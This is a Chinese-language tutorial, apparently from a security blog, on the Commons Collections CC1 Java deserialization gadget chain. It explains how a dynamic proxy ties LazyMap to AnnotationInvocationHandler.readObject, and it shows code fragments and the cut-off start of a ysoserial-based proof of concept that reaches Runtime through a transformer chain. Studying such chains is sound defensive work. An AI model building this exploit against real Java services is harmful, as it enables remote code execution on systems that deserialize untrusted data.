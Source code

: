 **②AnnotationInvocationHandler.invoke方法**
动态代理概念
Java动态代理InvocationHandler和Proxy参考文章 ：[https://blog.csdn.net/yaomingyang/article/details/80981004](Java动态代理InvocationHandler和Proxy学习笔记)
**InvocationHandler**接口是**proxy代理**实例的调用处理程序实现的一个接口，每一个proxy代理实例都有一个关联的调用处理程序；在代理实例调用方法时，方法调用被编码分派到调用处理程序的invoke方法。

每一个动态代理类的调用处理程序都必须实现InvocationHandler接口，并且每个代理类的实例都关联到了实现该接口的动态代理类调用处理程序中，当我们通过动态代理对象调用一个方法时候，这个方法的调用就会被转发到实现InvocationHandler接口类的invoke方法来调用。
这里适用动态代理的意义在于，主要调用Lazymap的任意方法，都会区调用AnnotationInvocationHandler的invoke（）方法。
LazyMap.get可以在AnnotationInvocationHandler.invoke中被调用，只要给LazyMap设置动态代理，LazyMap调用方法的时候就能调用invoke，而AnnotationInvocationHandler的readObject中又调用了LazyMap.entrySet方法，最后需要将绑定了chainedtransformer的Map传入AnnotationInvocationHandler的构造方法中，反序列化AnnotationInvocationHandler，整条利用链就又巧妙的连起来了。


Proxy类

Proxy类就是用来创建一个代理对象的类，它提供了很多方法，但是我们最常用的是newProxyInstance方法。

这个方法的作用就是创建一个代理类对象，它接收三个参数

- loader：用哪个类加载器去加载代理对象

- interfaces：动态代理类需要实现的接口

- h：动态代理方法在执行时，会调用h里面的invoke方法去执行

![image.png](http://moonsec.top/articlepic/ff5208f2ed8b92761790631fb90e5ad5.png)

**使用LazyMap+动态代理构造利用链**

我们需要对实现了Map接口的类进行Proxy，LazyMap实现了Map接口，所以只要调用了LazyMap的任意方法，都会直接去调用AnnotationInvocationHandler类的invoke()方法。

```java 
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
```
但我们不能直接对其进行序列化，因为我们入口点是sun.reflect.annotation.AnnotationInvocationHandler.readObject，所以我们还需要再用 AnnotationInvocationHandler对这个proxyMap进行包裹。
```java 
handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```
# 4、最终的POC
基于ysoserial的POC，最终的POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;
import java.util.StringTokenizer;
import java.util.HashMap;

public class CC1_5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        Transformer[] transformers = new Transformer[] {

                new ConstantTransformer(Runtime.class),
```